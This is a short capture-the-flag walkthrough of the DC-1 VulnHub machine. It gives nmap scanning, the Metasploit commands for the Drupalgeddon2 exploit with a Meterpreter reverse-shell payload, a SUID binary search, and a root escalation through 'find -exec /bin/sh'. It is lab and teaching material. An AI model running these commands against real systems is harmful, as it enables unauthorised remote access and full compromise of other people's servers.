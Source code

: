 # DC-1 CTF – Summary Walkthrough

A full text-based breakdown of the DC-1 vulnerable machine from VulnHub. This beginner-friendly box simulates a real-world web server running Drupal CMS and focuses on web enumeration, exploitation, and privilege escalation.

## Discovery
- Ran `nmap -A -Pn <ip>` → Found ports: 22 (SSH), 80 (HTTP – Drupal 7), 111 (RPC service)

## Enumeration
- Navigated to `http://<ip>` in browser → Displayed default **Drupal 7** page
- Identified the CMS and suspected a vulnerable version
- Launched Metasploit and searched for Drupal-related exploits

## ⚙️ Foothold
- Used Metasploit to exploit **Drupalgeddon2 (CVE-2018–7600)**:
  ```
  msfconsole
  use exploit/unix/webapp/drupal_drupalgeddon2
  set RHOSTS <target-ip>
  set RPORT 80
  set TARGET 0
  set payload php/meterpreter/reverse_tcp
  set LHOST <your-ip>
  run
  ```
✅ Successfully received a Meterpreter session

## Shell Access
- Dropped to interactive shell using:
  ```
  shell
  ```
- Searched for SUID binaries:
  ```
  find / -perm -4000 -type f 2>/dev/null
  ```

## Privilege Escalation
- Moved to `/tmp` and created a file:
  ```
  cd /tmp
  touch DC-1
  ```
- Escalated privileges using:
  ```
  find DC-1 -exec "/bin/sh" \;
  ```
✅ Gained root access

---

**Full walkthrough with screenshots:**  
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/dc-1-vulnhub-ctf-walkthrough-remote-code-execution-privilege-escalation-via-drupal-3e49de54f7a4)
